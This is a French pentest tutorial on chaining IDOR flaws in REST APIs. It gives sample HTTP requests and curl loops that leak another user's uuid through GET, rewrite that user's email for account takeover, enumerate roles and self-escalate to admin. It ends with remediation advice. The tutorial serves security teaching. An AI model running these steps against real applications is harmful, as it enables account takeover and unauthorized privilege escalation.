

# IDOR dans les APIs et prévention

Un IDOR ne se limite pas à changer un numéro dans une URL pour télécharger le fichier du voisin. Dès qu'une API REST expose des identifiants d'objets sans vérifier qui a le droit de les manipuler, la vulnérabilité change de dimension : on ne lit plus seulement des données, on peut les modifier, en créer, en supprimer, et parfois grimper jusqu'aux privilèges administrateur. Cette page couvre l'exploitation d'IDOR sur des appels de fonction API, la manière de chaîner plusieurs failles IDOR entre elles pour contourner des contrôles d'accès qui semblaient solides, et les mesures qui permettent réellement de s'en protéger.

## Pourquoi ça compte

Sur un pentest web, l'IDOR classique (accéder au document ou à la facture d'un autre utilisateur via un identifiant séquentiel) est souvent la première chose qu'on teste. Mais les applications modernes exposent de plus en plus leur logique métier via des APIs REST ou GraphQL consommées par du JavaScript côté client. Ces APIs manipulent des objets avec des méthodes HTTP standard (`GET`, `POST`, `PUT`, `DELETE`), et chacune de ces méthodes peut souffrir du même défaut de fond : aucune vérification que l'utilisateur authentifié a réellement le droit d'agir sur l'objet ciblé.

La distinction utile à garder en tête est celle entre deux familles d'IDOR :

| Type | Ce qu'on obtient | Exemple |
|---|---|---|
| Information disclosure | Lecture de données appartenant à un autre utilisateur | `GET /api/profile/2` renvoie le profil de quelqu'un d'autre |
| Appel de fonction non protégé | Exécution d'une action réservée à un autre rôle ou un autre utilisateur | `PUT /api/profile/2` modifie les données d'un compte qui n'est pas le nôtre |

Prises séparément, ces deux failles sont déjà gênantes. Chaînées, elles deviennent redoutables : une fuite d'information anodine peut fournir exactement l'élément qui manquait pour rendre exploitable un appel de fonction jusque-là bloqué. C'est ce mécanisme de chaînage, plus que chaque brique prise isolément, qui transforme un bug de logique métier en compromission complète d'application.


Un contrôle d'accès qui semble robuste au premier passage (rejet de toute tentative directe) ne veut rien dire tant qu'on n'a pas testé toutes les méthodes HTTP disponibles sur l'endpoint, y compris celles qui ne servent qu'à lire.


## Comment ça marche

### Repérer une API mal protégée

Le point de départ est presque toujours une fonctionnalité anodine : une page d'édition de profil, un formulaire de mise à jour de commande, une interface d'administration limitée. Dès qu'on modifie une donnée et qu'elle persiste après un rafraîchissement de page, il y a de fortes chances qu'une requête API tourne en coulisses. Il suffit d'intercepter cette requête avec un proxy pour voir ce qui part réellement vers le serveur.

Prenons un exemple représentatif : une application de gestion RH avec une page "Modifier mon profil". Le formulaire ne montre que trois champs (nom, email, description), mais la requête interceptée envoie beaucoup plus :

```http
PUT /profile/api.php/profile/1 HTTP/1.1
Host: <IP_CIBLE>
Cookie: role=employee
Content-Type: application/json

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Jean Dupont",
    "email": "jean.dupont@societe.local",
    "about": "Consultant technique"
}
```

Trois éléments sautent aux yeux ici, et aucun n'est présent dans le formulaire visible :

* **`uid`** : l'identifiant numérique de l'utilisateur, exposé dans le corps de la requête ET dans l'URL de l'endpoint.
* **`uuid`** : un identifiant secondaire, probablement utilisé côté serveur comme jeton de vérification.
* **`role`** : le niveau de privilège de l'utilisateur, envoyé tel quel par le client.

Le dernier point est le vrai signal d'alarme. Si le rôle de l'utilisateur est porté par un cookie (`Cookie: role=employee`) ou par un champ JSON modifiable côté client, alors l'autorisation repose entièrement sur la confiance qu'on accorde à ce que le navigateur veut bien envoyer. Rien n'empêche, en théorie, de changer cette valeur avant l'envoi.


Voir le rôle ou le niveau de privilège d'un utilisateur circuler dans un cookie ou dans le corps JSON d'une requête doit immédiatement orienter les tests vers une escalade de privilèges par manipulation de paramètre, en plus de l'IDOR classique.


### Tester les appels de fonction

Une fois l'API repérée, la démarche consiste à tester méthodiquement chaque paramètre suspect et chaque méthode HTTP disponible. Sur l'exemple ci-dessus, les pistes évidentes sont :

1. Changer `uid` pour prendre la main sur un autre compte.
2. Modifier les données d'un autre utilisateur en changeant l'endpoint et l'`uid` associé.
3. Créer un nouvel utilisateur via `POST`.
4. Supprimer un utilisateur via `DELETE`.
5. Changer son propre `role` pour obtenir plus de privilèges.

Dans une application bien pensée mais pas complètement étanche, ces tentatives directes échouent une par une, avec des messages d'erreur qui trahissent l'existence de contrôles côté serveur :

```http
PUT /profile/api.php/profile/1 HTTP/1.1
...
{"uid": 2, "uuid": "40f5888b67c748df7efba008e7c2f9d2", ...}

HTTP/1.1 200 OK
{"error": "uid mismatch"}
```

Le serveur compare visiblement l'`uid` du corps de la requête à celui présent dans l'URL. Si on corrige ce détail en changeant les deux à la fois (endpoint `/profile/2` et `"uid": 2`), une seconde barrière apparaît :

```http
HTTP/1.1 200 OK
{"error": "uuid mismatch"}
```

Cette fois, le serveur vérifie que l'`uuid` envoyé correspond bien à celui associé à l'`uid` ciblé. Comme on ne connaît que son propre `uuid`, la requête échoue. Les tentatives de création (`POST`) et de suppression (`DELETE`) se heurtent à leur tour à des messages du type "réservé aux administrateurs", et changer son `role` pour une valeur devinée à la main (`admin`, `administrator`) renvoie simplement "rôle invalide".

À ce stade, il est tentant de conclure que l'API est correctement protégée. C'est exactement la conclusion à ne pas tirer trop vite : tout ce qui a été testé jusqu'ici concerne des appels de fonction en écriture (`PUT`, `POST`, `DELETE`). La méthode `GET`, qui ne fait que lire, n'a pas encore été soumise aux mêmes tests.

### Chaîner information disclosure et appel de fonction

C'est là que la chaîne prend tout son sens. Une requête `GET` vers le même endpoint, avec un `uid` différent du sien, mérite d'être testée même si toutes les écritures ont échoué : une vérification d'autorisation appliquée à `PUT`/`POST`/`DELETE` n'est pas forcément dupliquée sur `GET`, surtout si le développeur a considéré la lecture comme "moins sensible".

```http
GET /profile/api.php/profile/2 HTTP/1.1
Host: <IP_CIBLE>
Cookie: role=employee

HTTP/1.1 200 OK
{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Claire Martin",
    "email": "claire.martin@societe.local",
    "about": "Chargée de projet"
}
```

Et voilà l'élément qui manquait : le `uuid` d'un autre utilisateur, obtenu sans aucune restriction. Cette fuite d'information, prise isolément, n'a l'air que d'un problème de confidentialité mineur. Combinée à ce qu'on a appris plus haut, elle change tout : on possède maintenant exactement la donnée que le contrôle d'accès sur `PUT` exigeait.

En renvoyant un `PUT` vers `/profile/api.php/profile/2` avec le bon `uid` et le `uuid` fraîchement récupéré, la vérification passe sans erreur. On vient de modifier les données d'un compte qui n'est pas le nôtre :

```http
PUT /profile/api.php/profile/2 HTTP/1.1
Host: <IP_CIBLE>
Cookie: role=employee

{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Claire Martin",
    "email": "attaquant@mail-controle.local",
    "about": "Chargée de projet"
}
```

À partir de ce point, plusieurs scénarios d'exploitation s'ouvrent :

* **Prise de compte par réinitialisation de mot de passe** : changer l'email associé au compte cible, puis déclencher un "mot de passe oublié" pour recevoir le lien de réinitialisation sur une adresse qu'on contrôle.
* **XSS stocké** : injecter une charge utile dans un champ texte libre (ici `about`), qui s'exécutera dans le navigateur de la victime la prochaine fois qu'elle consultera son propre profil.
* **Pollution de données** : modifier en masse des champs métier (statut, montant, adresse) pour perturber le fonctionnement de l'application ou couvrir une fraude.

### Escalade de privilèges par énumération

La même faille d'information disclosure permet d'aller plus loin encore. Si l'API accepte de renvoyer les détails de n'importe quel `uid` sans contrôle, rien n'empêche de l'interroger en boucle pour cartographier l'ensemble des comptes existants et repérer celui qui porte les privilèges les plus élevés :

```bash
for uid in $(seq 1 50); do
    curl -s -X GET "https://<IP_CIBLE>/profile/api.php/profile/$uid" \
        -H "Cookie: role=employee" | jq '{uid: .uid, role: .role, email: .email}'
done
```

Sur un jeu de comptes suffisamment grand, ce genre de balayage finit presque toujours par exposer un rôle qui sort du lot, par exemple `web_admin` au lieu de `employee`. Une fois ce nom de rôle connu, il devient exploitable : le message "rôle invalide" rencontré plus tôt ne bloquait que les noms de rôle devinés au hasard, pas un nom de rôle réellement valide dans le système.

```http
PUT /profile/api.php/profile/1 HTTP/1.1
Cookie: role=employee

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "web_admin",
    "full_name": "Jean Dupont",
    "email": "jean.dupont@societe.local",
    "about": "Consultant technique"
}
```

Si la requête passe sans erreur et qu'un `GET` de suivi confirme que le rôle a bien changé côté serveur, il ne reste plus qu'à mettre à jour le cookie de session en conséquence (rafraîchir la page suffit souvent à le régénérer à partir du nouveau rôle stocké). Avec `role=web_admin`, les fonctions de création et de suppression d'utilisateurs, bloquées au tout début du test, s'ouvrent d'un coup.

La chaîne complète ressemble à ceci :



Ce cheminement illustre une règle qui revient sans cesse en test d'intrusion : une vulnérabilité mineure isolée peut devenir critique une fois combinée à une autre. Le réflexe à avoir n'est jamais "cette fuite d'info est mineure, on note et on passe à autre chose", mais "qu'est-ce que cette fuite d'info me permettrait de faire ailleurs sur l'application".

## En pratique

Voici la démarche complète qu'on peut suivre pour auditer une API suspectée d'IDOR, de la découverte initiale jusqu'à l'escalade.



```bash
# Intercepter le trafic normal de l'application avec Burp ou mitmproxy
# pour identifier les endpoints API sollicités par le front-end

# Repérer la structure des requêtes et les paramètres exposés
# (uid, uuid, role, ou tout identifiant qui n'apparaît pas dans le formulaire visible)
```



```bash
# Tester chaque méthode HTTP sur l'endpoint identifié
curl -s -X PUT "https://<IP_CIBLE>/profile/api.php/profile/2" \
    -H "Cookie: role=employee" \
    -H "Content-Type: application/json" \
    -d '{"uid":2,"uuid":"<uuid_connu>","role":"employee","full_name":"x","email":"x@x.com","about":"x"}'

curl -s -X POST "https://<IP_CIBLE>/profile/api.php/profile/99" \
    -H "Cookie: role=employee" \
    -H "Content-Type: application/json" \
    -d '{"uid":99,"role":"employee","full_name":"test","email":"test@x.com","about":""}'

curl -s -X DELETE "https://<IP_CIBLE>/profile/api.php/profile/2" \
    -H "Cookie: role=employee"
```



```bash
# Ne jamais s'arrêter aux échecs sur PUT/POST/DELETE
# Toujours vérifier si GET applique les mêmes contrôles

curl -s -X GET "https://<IP_CIBLE>/profile/api.php/profile/2" \
    -H "Cookie: role=employee" | jq .
```



```bash
# Une fois la fuite confirmée, énumérer pour trouver un rôle privilégié
for uid in $(seq 1 100); do
    resp=$(curl -s "https://<IP_CIBLE>/profile/api.php/profile/$uid" \
        -H "Cookie: role=employee")
    echo "$resp" | jq -c 'select(.role != "employee")'
done

# Réutiliser un rôle privilégié découvert pour s'auto-promouvoir
curl -s -X PUT "https://<IP_CIBLE>/profile/api.php/profile/1" \
    -H "Cookie: role=employee" \
    -H "Content-Type: application/json" \
    -d '{"uid":1,"uuid":"<mon_uuid>","role":"web_admin","full_name":"x","email":"x@x.com","about":"x"}'
```




Un script d'énumération sur une API réelle en mission doit toujours respecter les limites de débit fixées avec le client. Une boucle trop agressive sur un endpoint non protégé peut ressembler à une attaque par déni de service aux yeux d'une équipe de supervision, même si l'intention est purement défensive.


## Pièges et galères

Quelques points qui font perdre du temps ou masquent une vulnérabilité pourtant bien réelle :

* **S'arrêter au premier "accès refusé".** Le piège le plus courant est de tester `PUT`, se prendre un `uid mismatch`, et conclure que l'objet est bien protégé. Chaque méthode HTTP doit être testée séparément, la vérification d'autorisation n'étant que rarement centralisée de façon homogène sur toutes.
* **Confondre validation de format et contrôle d'accès.** Un message "rôle invalide" ne veut pas dire que le système vérifie qui a le droit de changer de rôle. Il vérifie seulement que la valeur envoyée existe dans une liste de rôles connus. Ce sont deux mécanismes différents, et le second peut très bien être absent.
* **Oublier de rafraîchir le contexte de session après une modification côté serveur.** Après avoir changé son `role` en base, le cookie de session peut rester périmé jusqu'à un rafraîchissement de page ou une nouvelle authentification. Ne pas voir d'effet immédiat ne signifie pas que la modification a échoué.
* **Négliger les identifiants secondaires (`uuid`, `token`, `ref`).** Un contrôle qui semble bloquant sur `uid` peut être totalement absent sur un second identifiant censé le renforcer, si ce second identifiant est lui-même exposé par une autre route de l'API.
* **Croire qu'un `uuid` élimine le risque.** Un identifiant aléatoire complique la découverte par force brute, mais si le contrôle d'accès reste absent une fois l'identifiant obtenu (par fuite, par un autre endpoint, par un lien partagé), l'IDOR reste parfaitement exploitable.
* **Passer à côté de l'assignation de masse.** Une fois un rôle privilégié obtenu, la tentation est de s'arrêter à la prise de contrôle d'un compte. Mais le même mécanisme permet souvent de modifier un champ pour l'ensemble des utilisateurs (email, statut, permissions), ce qui démultiplie l'impact d'audit à documenter.

## Retour terrain

Sur les audits qui touchent des applications internes ou des back-offices métier, ce schéma revient très régulièrement : une équipe de développement construit une API propre, protège soigneusement les opérations d'écriture les plus sensibles, et laisse la lecture "pour plus tard" parce qu'elle semble moins risquée. C'est justement cette hiérarchie intuitive (écrire est dangereux, lire est anodin) qui crée la faille. Dans les faits, une lecture non protégée est souvent le maillon qui permet de contourner une écriture par ailleurs bien verrouillée.

Le second constat récurrent concerne la confusion entre authentification et autorisation. Une application peut avoir une authentification solide (mot de passe fort, session bien gérée, jeton signé) tout en ayant une autorisation quasiment absente au niveau des objets manipulés. Le jeton prouve qui on est, pas ce qu'on a le droit de faire sur chaque ressource individuelle. Ce sont deux couches de sécurité distinctes, et l'IDOR vit précisément dans l'angle mort laissé par la seconde.

Côté remédiation, deux mesures concentrent l'essentiel de la valeur :

**Un contrôle d'accès au niveau de l'objet, jamais au niveau du client.** Le rôle et les privilèges d'un utilisateur ne doivent jamais transiter dans un cookie modifiable ou dans le corps JSON d'une requête. Ils doivent être résolus côté serveur, à partir de la session authentifiée, puis comparés à l'objet demandé avant toute exécution. Un exemple de règle d'accès mappée à chaque objet ressemblerait à ceci :

```javascript
match /api/profile/{userId} {
    allow read, write: if user.isAuth == true
        && (user.uid == userId || user.roles == 'admin');
}
```

Le principe clé ici est que `user` provient de la session authentifiée côté serveur, pas d'une donnée envoyée par le client. Cette règle vérifie que l'utilisateur est authentifié, puis qu'il correspond au propriétaire de l'objet ou qu'il porte un rôle administrateur résolu côté back-end. Rien dans cette logique ne fait confiance à un paramètre fourni par le navigateur.

**Des références d'objets qui ne se devinent pas.** Même avec un contrôle d'accès théoriquement en place, exposer des identifiants séquentiels en clair (`uid=1`, `uid=2`, `uid=3`) facilite l'énumération et augmente la surface de test pour un attaquant qui chercherait une faille résiduelle. Remplacer ces identifiants par des UUID v4 générés côté serveur, ou par des hashes salés, réduit fortement la capacité à deviner ou à énumérer des références valides. Le mapping entre l'identifiant public et l'objet réel doit rester entièrement côté serveur : jamais de calcul de hash côté front-end, jamais de logique de génération accessible au client.


Un UUID rend l'IDOR plus difficile à détecter, pas impossible à exploiter. Si le contrôle d'accès est absent ou mal implémenté, un identifiant obtenu par une autre voie (fuite d'information, lien partagé, journal applicatif) reste tout aussi exploitable qu'un `uid=1` en clair. Le contrôle d'accès au niveau de l'objet reste la première ligne de défense, la robustesse de la référence n'arrive qu'en second.


En pratique, ces deux mesures se complètent plutôt qu'elles ne se substituent l'une à l'autre. Un système d'autorisation bien conçu réduit l'impact d'un identifiant deviné. Une référence non devinable réduit la fréquence des tentatives. Aucune des deux, seule, ne couvre l'ensemble du risque.

## Mémo express

| Étape | Ce qu'on teste | Signal d'alerte |
|---|---|---|
| Cartographie | Requêtes déclenchées par les formulaires de mise à jour | Paramètres absents du formulaire visible (`uid`, `role`, `token`) |
| Écriture | `PUT`, `POST`, `DELETE` sur des identifiants qui ne sont pas les siens | Erreurs génériques qui ne bloquent qu'un seul champ à la fois |
| Lecture | `GET` sur des identifiants qui ne sont pas les siens | Réponse 200 avec les données d'un autre utilisateur |
| Chaînage | Réutilisation des données lues (uuid, rôle) dans un appel en écriture | La combinaison passe là où l'appel isolé échouait |
| Énumération | Balayage de tous les identifiants pour cartographier les rôles | Un rôle qui sort du lot dans les réponses |
| Escalade | Réinjection d'un rôle privilégié découvert sur son propre compte | Absence d'erreur, changement confirmé par un `GET` de suivi |


Face à une API qui semble bien protégée en écriture, le réflexe à automatiser est simple : tester systématiquement `GET` sur chaque identifiant voisin du sien, et se demander ce que chaque donnée récupérée permettrait de débloquer ailleurs sur l'application. La faille se trouve rarement là où on l'a cherchée en premier.


***
